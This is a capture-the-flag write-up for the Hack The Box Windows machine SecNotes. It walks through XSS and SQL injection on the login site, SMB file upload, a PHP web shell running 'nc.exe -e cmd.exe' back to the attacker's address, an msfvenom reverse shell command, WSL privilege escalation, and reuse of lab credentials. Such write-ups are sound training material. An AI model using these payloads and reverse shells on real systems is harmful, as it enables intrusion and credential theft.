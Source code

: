 # Hackthebox - Secnotes

- Windows

![Secnotes](../.res/HTB-SecNotes.png)

- [Box on HTB](https://app.hackthebox.com/machines/151)

## Nmap

```
┌──(root💀kali)-[~/Documents/hackthebox/secnotes]
└─# nmap -T4 -A -p- 10.10.10.97
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-02 10:46 EDT
Nmap scan report for 10.10.10.97
Host is up (0.025s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-title: Secure Notes - Login
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP|7 (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows XP SP2 (86%), Microsoft Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-04-02T14:50:46
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2022-04-02T07:50:47-07:00
|_clock-skew: mean: 2h22m41s, deviation: 4h02m32s, median: 2m39s

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   24.69 ms 10.10.14.1
2   24.84 ms 10.10.10.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 150.12 seconds
```

## Port 80

- There is a website in which we can register  
![image](https://user-images.githubusercontent.com/96747355/161392042-5ba00a95-a1a6-4fb3-b094-f50db3e8fd95.png)  
- There is also a message disclosing an email address  
![image](https://user-images.githubusercontent.com/96747355/161392138-71a2dd00-b6b2-40ad-9c7c-8f8253f0cfbd.png)  
- So we keep it aside ` tyler@secnotes.htb` we can also edit our `/etc/hosts` file and add `10.10.10.97 secnotes.htb` in it  
- No sqli in the login
- Let's try on the register if we register a user with username `<script>alert(1)</script>` when we login with it after we have a stored xss:  
![image](https://user-images.githubusercontent.com/96747355/161392971-b25a15fc-5a56-4c1e-9647-40051f478fee.png)  
- So we need to investigate the username parameter and see if it might be vulnerable to sqli
- Let's try with this `' or 1=1; --` we get an internal server error when trying to login with this after but if we register with `'OR 1 OR'` it actually works and we get all the tickets  
![image](https://user-images.githubusercontent.com/96747355/161393496-bd38b265-53ad-4c97-8cd9-34bcfc9298d6.png)  
- We even get a user and password: `tyler / 92g!mA8BGjOirkL%OG*&` along with what looks like an smb folder so definetely worth trying to connect there `\\secnotes.htb\new-site`

## SMB

```
┌──(root💀kali)-[~/Documents/hackthebox/secnotes]
└─# smbclient \\\\10.10.10.97\\new-site -U tyler
smb: \> download test.txt
download: command not found
smb: \> put test.txt
putting file test.txt as \test.txt (0.0 kb/s) (average 0.0 kb/s)
smb: \> ls
  .                                   D        0  Sat Apr  2 17:04:06 2022
  ..                                  D        0  Sat Apr  2 17:04:06 2022
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
  test.txt                            A        0  Sat Apr  2 17:04:06 2022

                7736063 blocks of size 4096. 3395585 blocks available
```
- We get to a share that hosts the default files of the webserver on port 8808. We have write rights (you can see above that I was able to download a test file) so we could use and aspx reverse shell `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=5555 -f aspx > shell.aspx`
- We put it on the share `put shell.aspx`
- We launch on listener `rlwrap nc -lvp 5555`
- We browse to our reverse shell from the website - does not work :$ - our file are deleted
- Let's try to put `/usr/share/windows-resources/binaries/nc.exe` in it
- We can then make a php file that will launch nc and connect it to our machine so that we get a reverse shell:
```
<?php
system('nc.exe -e cmd.exe 10.10.14.4 5555')
?>
```
- We can then browse to the page, and we get a shell  
![image](https://user-images.githubusercontent.com/96747355/161402147-fa79ebc5-e6c1-48ca-9392-86c0870c3266.png)  
- We can then grab the user flag

## Privilege Escalation

- In the desktop of tyler there is a bash.lnk. We could use [this from payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---windows-subsystem-for-linux-wsl) to privesc
- Let's see if we have a bash.exe file somewhere
```
where /R c:\windows bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```
- Now let's find wsl.exe
```
where /R c:\windows wsl.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe
```
- Let's see if we are root with wsl:
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
root
```
- We are root
- Let's launch the bash to get the shell  
![image](https://user-images.githubusercontent.com/96747355/161403022-8d3f3c2f-afc2-4b4f-b52b-a68f97217af5.png)  
Let's spawn a [tty shell](https://netsec.ws/?p=337)
```
python -c "import pty;pty.spawn('/bin/bash')"
```
- if we type history we have an instresting output
```
history
    1  cd /mnt/c/
    2  ls
    3  cd Users/
    4  cd /
    5  cd ~
    6  ls
    7  pwd
    8  mkdir filesystem
    9  mount //127.0.0.1/c$ filesystem/
   10  sudo apt install cifs-utils
   11  mount //127.0.0.1/c$ filesystem/
   12  mount //127.0.0.1/c$ filesystem/ -o user=administrator
   13  cat /proc/filesystems
   14  sudo modprobe cifs
   15  smbclient
   16  apt install smbclient
   17  smbclient
   18  smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
   19  > .bash_history 
   20  less .bash_history
   21  uname -a
   22  pwd
   23  ls -al
   24  history
```

- We have the password for the admin por smbclient
- ` smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$` And it works! We can actually connect as administrator to an smb share we just need to grab the flag  
![image](https://user-images.githubusercontent.com/96747355/161403183-d7124822-5828-47fe-bfb3-7dc58440c1f6.png)
